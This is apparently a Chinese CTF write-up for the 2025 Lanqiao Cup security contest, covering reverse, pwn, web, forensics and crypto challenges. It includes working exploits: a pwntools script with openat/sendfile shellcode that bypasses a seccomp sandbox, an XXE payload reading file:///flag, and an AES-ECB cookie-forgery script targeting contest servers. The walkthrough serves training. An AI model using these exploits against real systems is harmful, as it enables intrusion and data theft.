# 2025年第十六届蓝桥杯网络安全赛项wp-先知社区

> **来源**: https://xz.aliyun.com/news/17891  
> **文章ID**: 17891

---

# 逆向分析

## ShadowPhases

在调查一起跨国数据泄露事件时，你的团队在暗网论坛发现一组被称作'三影密匣'的加密缓存文件。据匿名线报，这些文件采用上世纪某情报机构开发的“三重影位算法”，关键数据被分割为三个相位，每个相位使用不同的影位密钥混淆。威胁分析显示，若不能在48小时内还原原始信息，某关键基础设施的访问密钥将被永久销毁。逆向工程师的日志残页显示：'相位间存在密钥共鸣，但需警惕内存中的镜像陷阱..

​

导进ida，发现最后比较了str1和str2，直接动调





在这里下断点，flag在rcx里面



## BashBreaker

赛博考古学界流传着一个传说——人工智能先驱艾琳·巴什博士在自杀前，将毕生研究的核心算法封存在了他的量子实验室中。这个实验室遵循古老的巴什博弈协议，唯有通过15枚光子硬币的智慧试炼，才能唤醒沉睡的实验室AI。

​

首先看到了函数栏里面有rc4相关函数



这里有一个key解密函数，执行完会打印出key值，这里用一个巧法，nop掉if， 去掉判断条件就能直接打印出key值







```
EC3700DFCD4F364EC54B19C5E7E26DEF6A25087C4FCDF4F8507A40A9019E3B48BD70129D0141A5B8F089F280F4BE6CCD
```

但是后面发现main函数并没有调用前面找到的rc4函数，最后在这里找到了ONE\_PIECE，大概率就是密文了 ）出题人也喜欢看海贼王嘛



直接用rc4的脚本解密，小试一下就试出来了

```
from Crypto.Cipher import ARC4
import binascii

def rc4(key: bytes, data: bytes) -> bytes:
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + (key[i % len(key)] ^ 0x37)) % 256
        S[i], S[j] = S[j], S[i]

    i = j = 0
    result = []
    for byte in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        k = S[(S[i] + S[j]) % 256]
        k = ((16 * k) | (k >> 4)) & 0xff
        result.append((byte ^ k) & 0xff)

    return bytes(result)

key = b"EC3700DFCD4F364EC54B19C5E7E26DEF6A25087C4FCDF4F8507A40A9019E3B48BD70129D0141A5B8F089F280F4BE6CCD"
enc = bytes([
    0xBB, 0xCA, 0x12, 0x14, 0xD0, 0xF1, 0x99, 0xA7, 0x91, 0x48,
    0xC3, 0x28, 0x73, 0xAD, 0xB7, 0x75, 0x8C, 0x89, 0xCD, 0xDD,
    0x2D, 0x50, 0x5D, 0x7F, 0x95, 0xB1, 0xA4, 0x9D, 0x09, 0x43,
    0xE1, 0xD2, 0xE9, 0x66, 0xEA, 0x18, 0x98, 0xC6, 0xCC, 0x02,
    0x39, 0x18
])

print(bytes(rc4(key, enc))
```

# 漏洞挖掘分析

## RuneBreach

你是一名穿越到异世界的勇者，正面临最终决战！邪恶的 Boss 即将占领你的王国，唯一的机会就是利用传说中的“漏洞之剑”击败它。

然而，Boss 在战场上布下了魔法沙箱结界，禁止你使用常规的“召唤术”！你必须找到结界中的弱点，注入符文，才能给予 Boss 致命一击！

​

boss\_victory()这里给addr赋予了可执行权限，可以写shellcode并执行，那么我们前面一直n，死掉后这里写shellcode即可



开了沙箱，禁用了execve，写openat + sendfile 绕过沙箱（orw也可，我用这个习惯了）





```
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
r = remote('39.105.2.63',34843)
#r = process('./chall')
e = ELF('./chall')
#libc = ELF('./libc.so.6')  # 打本地，用的是2.23_3

one = [0x4525a, 0xef9f4, 0xf0897]

def dbg():
    gdb.attach(r,'b *$rebase(0x0c26)')
    pause()
    
r.recvuntil(b'Defend? (y/N): ')
r.sendline(b'n')
r.recvuntil(b'Defend? (y/N): ')
r.sendline(b'n')
r.recvuntil(b'Defend? (y/N): ')
r.sendline(b'n')
r.recvuntil(b'Defend? (y/N): ')
r.sendline(b'n')
#dbg()
r.recvuntil(b'territory: ')
sc = '''    
    mov rax, 0x67616c662f2e
    push rax
    xor rdi, rdi
    sub rdi, 100
    mov rsi, rsp
    xor edx, edx
    xor r10, r10
    push SYS_openat
    pop rax
    syscall

    mov rdi, 1
    mov rsi, 3
    push 0
    mov rdx, rsp
    mov r10, 0x100
    push SYS_sendfile
    pop rax
    syscall
'''
payload1 = asm(sc)

r.sendline(payload1)
r.interactive()
```

## 星际XML解析器

你已进入星际数据的世界，输入XML数据，启动解析程序，探索未知的数据奥秘！

​

打开发现是一个XML解析器，直接编写xxe漏洞payload，和ctfshow的几个入门题差不多



```
<?xml version="1.0"?>  
<!DOCTYPE test [  
    <!ENTITY dds SYSTEM "file:///flag">  
]>  

<test>&dds;</test>
```

# 数据分析

## ezEvtx

EVTX文件是Windows操作系统生成的事件日志文件，用于记录系统、应用程序和安全事件。

（本题需要选手找出攻击者访问成功的一个敏感文件，提交格式为flag{文件名}，其中文件名不包含文件路径，且包含文件后缀）

​

直接在右侧操作栏选择筛选功能，筛选警告日志



## flowzip

There are many zip files.

​

neta一把梭，flag字符串直接就在流量里面



# 密码破解

## Enigma

Enigma是20世纪早期由德国工程师Arthur Scherbius设计的一款便携式机械加密设备，旨在为需要高安全性通信的场景提供加密保护。其核心原理基于可旋转的机械转子、反射器和接线板的组合，通过复杂的电路转换实现对明文的加密与解密。

（本题需要选手还原成原文字母，提交格式为flag{原文字母}，其中原文字母为全英文大写，且去掉空格。）

​

猜测是对称加密，直接放cyberchef里面解密



```
flag{HELLOCTFERTHISISAMESSAGEFORYOU}
```

## ECBTrain

AES的ECB模式存在很明显的缺陷。你能否尝试以admin身份完成本题挑战？

​

电子密码本模式（ECB）是高级加密标准（AES）的一种工作模式。它将数据分成若干个固定大小的块，每个块独立加密。虽然实现简单，但存在明显的安全缺陷：相同的明文块会生成相同的密文块，并且具有分块独立加密特性，各个块加密互不影响，容易被攻击者利用

```
from pwn import *

context(arch='amd64', os='linux', log_level='debug')


io = remote('39.107.245.163', 26853)

io.sendlineafter(b": ", b"1")  
io.sendlineafter(b": ", b"\x0f"*16 + b"\x0f"*16 + b"\x0f")  
io.sendlineafter(b": ", b"123")  

c = io.recvline().decode().strip().split(": ")[-1]
print(f"First cookie: {c}")

io.sendlineafter(b": ", b"1") 

payload = b"\x0f"*16 + b"\x0f"*16 + b"\x0f"*16 + b"admin"
io.sendlineafter(b": ", payload) 
io.sendlineafter(b": ", b"123") 

d = io.recvline().decode().strip().split(": ")[-1]
target_cookie = d[len(c):].encode()  # 提取后半段加密数据


io.sendlineafter(b": ", b"2")  # 选择登录
io.sendlineafter(b": ", target_cookie)  # 发送构造的cookie

for _ in range(3):
    print(io.recvline().decode())

io.interactive()
```

# 情报收集

## 密室黑客逃脱

你被困在了顶级黑客精心设计的数字牢笼中，每一道关卡都暗藏致命陷阱！唯一的逃脱之路，是破解散落在服务器各处的加密线索，找到最终的“数字钥匙”。

​

有意思的题目捏）

这一串应该是密文，一开始用随波逐流导了一下，并没有什么东西



app.py里面有代码



```
import os
from flask import Flask, request, render_template
from config import *
# author: gamelab

app = Flask(__name__)

# 模拟敏感信息
sensitive_info = SENSITIVE_INFO

# 加密密钥
encryption_key = ENCRYPTION_KEY

def simple_encrypt(text, key):
    encrypted = bytearray()
    for i in range(len(text)):
        char = text[i]
        key_char = key[i % len(key)]
        encrypted.append(ord(char) + ord(key_char))
    return encrypted.hex()

encrypted_sensitive_info = simple_encrypt(sensitive_info, encryption_key)

# 模拟日志文件内容
log_content = f"用户访问了 /secret 页面，可能试图获取 {encrypted_sensitive_info}"

# 模拟隐藏文件内容
hidden_file_content = f"解密密钥: {encryption_key}"

# 指定安全的文件根目录
SAFE_ROOT_DIR = os.path.abspath('/app')
with open(os.path.join(SAFE_ROOT_DIR, 'hidden.txt'), 'w') as f:
    f.write(hidden_file_content)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/logs')
def logs():
    return render_template('logs.html', log_content=log_content)

@app.route('/secret')
def secret():
    return render_template('secret.html')

@app.route('/file')
def file():
    file_name = request.args.get('name')
    ifnot file_name:
        return render_template('no_file_name.html')
    full_path = os.path.abspath(os.path.join(SAFE_ROOT_DIR, file_name))
    ifnot full_path.startswith(SAFE_ROOT_DIR) or'config'in full_path:
        return render_template('no_premission.html')
    try:
        with open(full_path, 'r') as f:
            content = f.read()
        return render_template('file_content.html', content=content)
    except FileNotFoundError:
        return render_template('file_not_found.html')

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0')
```

密钥藏在hidden.txt里面



```
